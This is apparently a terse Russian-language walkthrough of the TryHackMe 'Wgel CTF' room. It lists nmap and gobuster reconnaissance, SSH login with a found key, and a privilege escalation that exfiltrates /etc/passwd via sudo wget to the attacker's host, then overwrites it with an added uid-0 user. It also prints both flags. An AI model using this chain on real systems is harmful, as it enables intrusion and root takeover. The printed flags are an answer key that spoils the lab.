 

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Wgel CTF](https://tryhackme.com/r/room/wgelctf) 

Всего 1 заданиe:
## Задание 1
Получайте удовольствие от этой простой коробки.

### Ответьте на вопросы ниже
```commandline
sudo nmap -sV -sS -A <IP>
gobuster dir -u http://<IP>/ -x php,txt -w /usr/share/wordlists/dirb/common.txt -t 20
gobuster dir -u http://<IP>/sitemap/ -x php,txt -w /usr/share/wordlists/dirb/common.txt -t 20
ssh -i id_rsa jessie@<IP>
cat user_flag.txt
```
Пользовательский флаг
```commandline
057c67131c3d5e42dd5cd3075b198ff6
```

```commandline
sudo -l
nc -lvnp 5555K
sudo /usr/bin/wget --post-file=/etc/passwd http://<YOUR_TUN0_IP>:5555
echo "toor:`openssl passwd toor`:0:0:root:/root:/bin/bash" >> passwd
python3 -m http.server
sudo /usr/bin/wget http://<YOUR_TUN0_IP>:8000/passwd -O /etc/passwd
su toor
```
Корневой флаг
```commandline
b1b968b37519ad1daa6408188649263d
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)